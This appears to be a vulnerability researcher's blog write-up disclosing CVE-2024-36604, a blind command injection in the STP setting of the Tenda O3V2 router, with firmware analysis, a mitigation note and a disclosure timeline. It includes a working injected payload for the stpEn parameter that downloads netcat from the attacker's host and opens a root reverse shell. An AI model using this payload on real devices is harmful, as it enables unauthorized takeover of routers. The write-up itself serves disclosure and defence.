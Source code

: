 ```yaml
---
title: CVE-2024-36604 - Blind Command Injection in STP Service on Tenda O3V2
date: 2024-05-20 13:30:00 +07:00
tags: [research, hardware]
---
```


This article discusses the second vulnerability I found in the Tenda O3V2 with firmware version 1.0.0.12. The vulnerability I found was blind command injection on the enable/disable STP Service feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. Tenda O3V2 have stp service, by default this service is off, when disable this service will carry a value of 0 and if enable the service will carry a value of 1 on the parameter then enter the dosystemcmd function. Due to the lack of validation on these parameter, blind command injection can occur.


### Vulnerability Analysis

Open router’s httpd binary with Ghidra. In the setSTP function there is the doSystemCmd function, this function executes the command that will enable/disable the stp service and this function requires user input.  It is evident in the stprequest variable there is no sanitization, this variable will later be passed to the doSystemCmd function, potentially leading to command injection, and because the command is only executed and the result of the command is not displayed, this command injection is blind.

![SetSTP Function](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/setstpfunc.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/pythonhttpserver.png)

Visit 192.168.2.1 and login, then go to Network Service

![Network Service](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/networkservice.png)

Intercept request using burpsuite when submit. In the setNetworkService endpoint, there is stpEn parameter.

![Intercept Request](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/interceptrequest.png)

Change the value of the stpEn parameter to the command we want, for example performing a reverse shell then forward the request<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file

![Download nc MIPS](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/gotrootshell.png)


### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(5755). In this firmware version, the vulnerability has been fixed by implementing sanitization.

They still haven't released the new firmware to the public but you can download the latest firmware [here](https://drive.google.com/file/d/1687UGmpNgmPnvOeJtIuDvoEUrDh7VSKZ/view?usp=sharing){:target="_blank"}{:rel="noopener noreferrer"}


### Timeline
20 April 2024: Vulnerability discovered and sent them the details of the vulnerability.<br>
20 April 2024: Vendor triage the vulnerability.<br>
22 April 2024: Vendor release new firmware version 1.0.0.13(5755).<br>
25 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.<br>
4 June 2024: CVE ID assigned